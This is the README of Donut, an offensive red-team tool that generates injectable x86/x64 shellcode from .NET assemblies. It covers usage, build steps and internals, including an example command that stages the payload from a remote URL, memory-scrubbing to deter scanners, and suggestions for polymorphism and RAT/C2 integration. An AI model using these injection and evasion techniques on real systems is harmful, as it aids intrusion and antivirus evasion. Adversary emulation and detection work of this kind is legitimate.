 # Using Donut

![Alt text](https://github.com/TheWover/donut/blob/master/img/donut.PNG?raw=true "General Usage")                                                                                                               
 
Donut is a shellcode generation tool that creates x86 or x64 shellcode payloads from .NET Assemblies. This shellcode may be used to inject the Assembly into arbitrary Windows processes. Given an arbitrary .NET Assembly, parameters, and an entry point (such as Program.Main), it produces position-independent shellcode that loads it from memory. The .NET Assembly can either be staged from a URL or stageless by being embedded directly in the shellcode. Either way, the .NET Assembly is encrypted with the Chaskey block cipher and a 128-bit randomly generated key. After the Assembly is loaded through the CLR, the original reference is erased from memory to deter memory scanners. The Assembly is loaded into a new Application Domain to allow for running Assemblies in disposable AppDomains.

It can be used in several ways.

## As a Standalone Tool

Donut can be used as-is to generate shellcode from arbitrary .NET Assemblies. Both a Windows EXE and a Python script are provided for payload generation. The command-line syntax is as described below.

```

  usage: donut [options] -f <.NET assembly> | -u <URL hosting donut module>

       -f <path>            .NET assembly to embed in PIC and DLL.
       -u <URL>             HTTP server hosting the .NET assembly.
       -c <namespace.class> The assembly class name.
       -m <method>          The assembly method name.
       -p <arg1,arg2...>    Optional parameters for method, separated by comma or semi-colon.
       -a <arch>            Target architecture : 1=x86, 2=amd64(default).
       -r <version>         CLR runtime version. v4.0.30319 is used by default.
       -d <name>            AppDomain name to create for assembly. Randomly generated by default.

 examples:

    donut -a 1 -c TestClass -m RunProcess -p notepad.exe -f loader.dll
    donut -f loader.dll -c TestClass -m RunProcess -p notepad.exe -u http://remote_server.com/modules/

```

## As a Library

donut is provided in *.dll* and *.lib* format to be used as a library. It has a simple API that is described in *api.html*. Several exported functions are provided, including ``` int CreatePayload(PDONUT_CONFIG c) ```. They all use the PDONUT_CONFIG struct as input.

## As a Template

Part of why donut was published was to provide a template for custom shellcode generators. Since all of the logic for the shellcode is defined in *payload.c*, that logic can be customized by simply changing the *payload* source code. Once the source code is changed, use the provided makefile to rebuild *payload.exe* using any of the following options

```
make x86
make x64
make debug
make clean
```

Once the new version of *payload.exe* is built, its executable code must be extracted. This can be done with *xbin.exe*. To extract the code, run the command below:

```
xbin.exe payload.exe .text
```

This will create payload.exeXX.bin where "XX" is either 32 or 64 depending on the build environment. This should be converted to a C array and placed in payload_x86.h with the label PAYLOAD_X86 or payload_x64.h with the label PAYLOAD_X64. This stub represents the shellcode component loads the .NET Assembly. When *donut* is used, it will combine this .bin file with the Assembly to produce the usable shellcode.

Additional features are left as exercises to the reader. I would personally recommend:

* Add environmental keying
* Make donut polymorphic by obfuscating *payload* every time shellcode is generated
* Integrate donut as a module into your favorite RAT/C2 Framework

## Disclaimers

* No, we will not update donut to counter signatures or detections by any AV.
* We are not responsible for any misuse of this software or technique. Donut is provided as a demonstration of CLR Injection through shellcode in order to provide red teamers a way to emulate adversaries and defenders a frame of reference for building analytics and mitigations. This inevitably runs the risk of malware authors and threat actors misusing it. However, we believe that the net benefit outweighs the risk. Hopefully that is correct.

# How it works

## Procedure

Donut uses the Unmanaged CLR Hosting API to load the Common Language Runtime. If necessary, the Assembly is downloaded into memory. Either way, it is decrypted. Once the CLR is loaded into the host process, an AppDomain is prepared. A new AppDomain will be created. Once the AppDomain is ready, the .NET Assembly is loaded through AppDomain.Load_3. Finally, the Entry Point specified by the user is invoked with any specified parameters.

The logic above describes how the shellcode generated by donut works. That logic is defined in *payload.exe*. To get the shellcode, *xbin.exe* extracts the compiled machine code from *.text* in *payload.exe* and saves it to *payload.bin*. *donut.exe* uses that extracted shellcode, and combines it with a Donut Instance ( a struct wrapper for the Assembly) and a Donut Module (a struct containing the config for the shellcode). The Instance and Module are referred to using offsets rather than stored on the stack. This ensures that the shellcode may be used with any injection technique without setting up the stack manually or using an API call in the CreateThread family.

Refer to MSDN for documentation on the Undocumented CLR Hosting API: https://docs.microsoft.com/en-us/dotnet/framework/unmanaged-api/hosting/clr-hosting-interfaces

For a standalone example of a CLR Host, refer to Casey Smith's AssemblyLoader repo: https://github.com/caseysmithrc/AssemblyLoader

## Components

Donut contains the following elements:

* donut.c: The source code for the donut payload generator
* donut.exe: The compiled payload generator as an EXE
* donut.py: The donut payload generator as a Python script
* lib/donut.dll, lib/donut.lib: Donut as a library for use in other projects on Windows
* lib/donut.so, lib/donut.a: Donut as a library for use in other projects on Linux
* payload/payload.c: The source code for the shellcode
* payload/payload.exe: The compiled payload. The shellcode is extracted from this binary file.
* payload/xbin.cpp: Source code for xbin
* payload/xbin.exe: Extracts the useful machine code from payload.exe so that it may be used as shellcode
* encrypt.c: Provides the source code the encryption
* DemoCreateProcess/Class1.cs: An example .NET Assembly. It starts two processes.

# Subprojects

There are three companion projects provided with donut:

* DonutTest: A simple C# shellcode injector to use in testing donut. The shellcode must be base64 encoded and copied in as a string. 
* ProcessManager: A Process Discovery tool that offensive operators may use to determine what to inject into and defensive operators may use to determine what is running, what properties those processes have, and whether or not they have the CLR loaded. 
* ModuleMonitor: A proof-of-concept tool that detects CLR injection as it is done by tools such as donut and Cobalt Strike's execute-assembly.

# Project plan

Current goal: Beat the other team to publication! ;-)

* ~~Add the option to load the .NET Assembly into a new Application Domain rather than DefaultDomain~~
* ~~After the Assembly is loaded into the AppDomain (but before it is run), randomize the bytes for the decrypted Assembly and free them. This is to prevent memory scanners from picking up the presence of a DLL in the incorrect part of memory.~~
* Create a donut Python C extension that allows users to write Python programs that can use the donut API programmatically. It would be written in C, but exposed as a Python module.
* Create a donut.py generator that uses the same command-line parameters as donut.exe
* ~~Clean up the code. Remove code that is not used. Ensure code is internally documented.~~
* Write documentation with enough detail for users to use donut as a library/API, and for them to use it as operators trying to quickly generate shellcode for one-time use. (this is mostly already done)
* Odzhan write a blog post on the technical implementation of donut and its API. TheWover write a blog post on how to use this as an operator, how it affects red team tradecraft, and potential detection mechanisms for the technique.
